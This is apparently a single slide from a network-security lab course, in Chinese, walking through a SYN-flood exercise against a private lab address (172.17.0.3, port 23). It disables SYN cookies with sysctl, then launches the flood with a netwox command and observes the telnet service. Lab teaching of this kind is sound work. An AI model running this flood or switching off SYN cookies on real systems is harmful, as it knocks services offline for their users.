

# SYN-Flooding攻击实施
关掉SYNCookie保护
sudo sysctl -w net.ipv4.tcp_syncookies=0
查看服务器的连接状态
netstat –nat
实施攻击
netwox 76 -i 172.17.0.3 -p 23 –s raw
再次查看服务器的连接状态，比较跟上次的不同
从用户机telnet服务器，观察
停止攻击，再次观察